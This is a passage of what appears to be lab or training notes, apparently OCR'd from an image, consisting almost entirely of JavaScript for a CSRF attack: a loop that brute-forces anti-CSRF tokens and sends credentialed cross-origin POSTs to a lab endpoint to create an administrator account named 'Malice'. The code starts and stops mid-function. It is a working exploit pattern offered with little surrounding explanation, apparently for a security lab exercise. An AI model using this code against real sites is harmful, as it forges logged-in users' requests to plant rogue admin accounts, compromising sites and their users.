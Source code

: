 ```js
         }
      };

      // Serialize the data without using JQuery 
      queryParams = Object.keys(params).reduce(function (a, k) {
         a.push(k + '=' + encodeURIComponent(params[k]));
         return a
      }, []).join('&');
      http.send(queryParams);
   }

   function Terminator() {
      self.postMessage("Sir, I've finished... see you later");
      self.close();
      return;
   }

   // Brute Loop
   bruteLoop(tokens);

}, false);


```

#### Simple Brute Force

```js
<html>
   <body>
      <h1>Anti-CSRF Tokens to test</h1>
      <textarea id="tokens" rows="12" cols="60">
         1679091c5a880faf6fb5e6087eb1b2dc
      </textarea>
      <script>
         function bruteLoop(TList) {
            for (var i = 0; i < TList.length; i++) {
               console.info("Testing: " + TList[i]);
               XHRPost(TList[i]);
            }
         }

         function XHRPost(tVal) {
            var http = new XMLHttpRequest();
            var url = "http://{LABID}.csrf.labs/add_user.php";
            var token = tVal;
            params = {
               "name": "Malice",
               "surname": "Smith",
               "email": "malice@hacker.site",
               "role": "ADMIN",
               "submit": "",
               "CSRFToken": token,
            };
            http.open("POST", url, true);
            http.withCredentials = 'true';

            // Send the proper header information along with the request
            http.setRequestHeader("Content-type", "application/x-www-form-urlencoded");

            http.onreadystatechange = function () {
               if (http.readyState > 1) {
                  // We don't care about responses
                  // console.warn("Aborted " + token + " with status " + http.readyState);
```